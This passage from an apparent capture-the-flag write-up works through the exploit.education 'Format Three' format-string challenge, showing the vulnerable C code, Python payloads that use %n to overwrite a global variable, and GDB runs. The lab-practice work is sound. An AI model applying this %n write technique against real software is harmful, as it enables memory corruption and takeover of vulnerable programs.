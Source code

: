 ```C
}

int main(int argc, char **argv) {
  char buf[4096];
  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);

  if (changeme == 0x64457845) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    printf(
        "Better luck next time - got 0x%08x, wanted 0x64457845!\n", changeme);
  }

  exit(0);
}
```
so we need to change the value of the global to specifically: b'ExEd' this time..
```python
payload = p32(0x5655900c) # Address of changeme at runtime using GDB
payload += b'A'*4000 # we have a HUGE 4096 size buffer this time
payload += b'%12$n'
open('payload_f3','wb').write(payload)
```

And then trying it in GDB what do we get
```
gef➤  r $(cat payload_f3 )
Starting program: /home/xxxx/phoenix/formats/f3 $(cat payload_f3 )
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to Format Three, brought to you by https://exploit.education


Better luck next time - got 0x00000000, wanted 0x64457845!
[Inferior 1 (process 1964121) exited normally]

Okay interesting so the size of the input seems to be what is overwriting changeme...
but we cant send in 0x64457845 characters thats insane... or maybe we can send something that will expand INTO that many characters? 

 Better luck next time - got 0x00000fa4, wanted 0x64457845!
 ```
 Huh... so the hex value is the number of bytes our input expands to.. well we can use the trick from earlier to expand small format string into many more bytes, so lets try that??
```python
payload = p32(0x5655900c) # Address of changeme at runtime using GDB
payload += b'%64457845x'
payload += b'%12$n'
open('payload_f3','wb').write(payload)
```
